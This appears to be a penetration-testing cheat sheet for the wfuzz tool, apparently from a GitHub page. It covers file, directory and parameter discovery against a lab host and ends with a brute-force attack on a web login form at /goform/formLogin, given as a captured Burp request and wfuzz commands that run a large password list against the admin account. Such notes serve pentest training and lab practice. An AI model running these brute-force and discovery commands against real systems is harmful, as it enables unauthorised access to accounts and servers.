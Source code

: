 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
```

Directory Discovery

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 
```

Parameter Discovery - check for files on the webserver that can be used maliciously

```
export URL="http://zda:80/index.php?FUZZ=data"
```

fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


```
wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ
```

Fuzz the password in Burp

```
POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login

```



RUn this command

```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp
```
you can restrict file size of th erequest to remove erronious responses 

```wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin
```


https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html

